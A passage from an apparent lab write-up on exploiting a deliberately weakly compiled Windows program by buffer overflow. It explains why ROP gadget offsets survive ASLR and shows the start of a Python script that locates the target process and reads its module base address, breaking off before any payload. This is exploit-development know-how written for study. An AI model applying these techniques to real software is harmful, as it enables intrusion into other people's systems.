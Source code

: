 <img width="945" height="155" alt="image" src="https://github.com/user-attachments/assets/5b7fc201-fde7-406a-907c-ceb4f0d57d9b" />

<img width="745" height="326" alt="image" src="https://github.com/user-attachments/assets/9d466a30-5e7a-49a2-b573-5bbd6c1053c4" />

**TL;DR:**
Only the base address of the module (e.g., 0x0000000140000000) is randomized by ASLR. The offset within the module (0x1f8c) is static because the gadget is at a fixed position relative to the image base. That’s how ROP chains work: by finding stable offsets in modules with a randomized base address.

Here's the catch:  I intentionally compiled my program using mingw and did not enable every possible security feature when I compiled it.  In our case, we're pretending a programmer forgot to compile it with full security in mind.  However, we still made sure our version of Windows 11 24h2 had all possible security controls enabled.  

So, how do we execute our buffer overflow exploit if the base address is randomized?  Glad you asked!  😸  It's fairly trivial honestly.  Just cycle through the process list using python, locate our overflow executable, and programatically locate the base address.  Easy peasy.

```python
import struct
import subprocess
import ctypes
import psutil

def get_pid_by_name(process_name):
    """Find the PID of a process by name."""
    for proc in psutil.process_iter(attrs=['pid', 'name']):
        print (proc)
        if proc.info['name'].lower() == process_name.lower():
            return proc.info['pid']
    return None

def get_base_address(pid):
    """Retrieve the base address of a process given its PID."""
    PROCESS_QUERY_INFORMATION = 0x0400
    PROCESS_VM_READ = 0x0010

    # Open the process
    h_process = ctypes.windll.kernel32.OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, False, pid)
    if not h_process:
        print(f"[-] Failed to open process {pid}. Check permissions.")
        return None

    # Enumerate process modules
    h_modules = (ctypes.c_void_p * 1024)()
    needed = ctypes.c_ulong()

    if ctypes.windll.psapi.EnumProcessModulesEx(h_process, ctypes.byref(h_modules), ctypes.sizeof(h_modules), ctypes.byref(needed), 0x03):
        base_address = h_modules[0]  # First module is the main executable
        ctypes.windll.kernel32.CloseHandle(h_process)
        return base_address
    else:
        print(f"[-] Failed to enumerate modules for PID {pid}.")
        ctypes.windll.kernel32.CloseHandle(h_process)
        return None


# Run the program to get the base address
process = subprocess.Popen(
    ["C:/Users/robbi/Documents/GitHub/elevationstation_local/bufferfiles/overflow4.exe"],  # Replace with the path to your compiled binary
    stdin=subprocess.PIPE,
```